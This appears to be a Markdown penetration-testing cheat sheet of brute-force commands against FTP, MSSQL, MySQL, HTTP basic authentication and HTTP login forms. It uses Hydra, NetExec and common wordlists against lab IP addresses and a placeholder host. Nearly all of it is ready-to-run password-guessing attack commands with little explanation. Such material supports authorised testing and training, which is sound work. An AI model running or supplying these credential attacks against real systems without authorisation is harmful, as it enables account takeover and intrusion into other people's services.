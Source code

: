 ## Other Services

### FTP Brute Force
```bash
# Hydra FTP
hydra -L user.list -P password.list ftp://10.129.42.197

# NetExec FTP
netexec ftp 10.129.42.197 -u user.list -p password.list
```

### MSSQL Brute Force
```bash
# NetExec MSSQL
netexec mssql 10.129.42.197 -u user.list -p password.list

# Execute queries
netexec mssql 10.129.42.197 -u user -p password -q "SELECT @@version"
```

### MySQL Brute Force
```bash
# Hydra MySQL
hydra -L user.list -P password.list mysql://10.129.42.197

# Connect to MySQL
mysql -h 10.129.42.197 -u user -p
```

### HTTP Basic Authentication
```bash
# Hydra Basic Auth on default port
hydra -l admin -P password.list target.com http-get /admin

# Custom port and path
hydra -l basic-auth-user -P passwords.txt 127.0.0.1 http-get / -s 81

# Multiple users with specific path
hydra -L usernames.txt -P passwords.txt target.com http-get /protected

# With verbose output
hydra -l admin -P rockyou.txt target.com http-get /admin -V

# Fast mode (stop after first success)
hydra -l admin -P passwords.txt target.com http-get /login -f
```

### HTTP Form-Based Authentication
```bash
# 1. Form Analysis (use browser developer tools)
# - Check form method (POST/GET)
# - Identify field names (username, password, etc.)
# - Note failure/success messages

# Generic login form
hydra -L usernames.txt -P passwords.txt target.com http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid credentials"

# With custom port
└─$ hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt -f 94.237.54.192 -s 48750 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"

```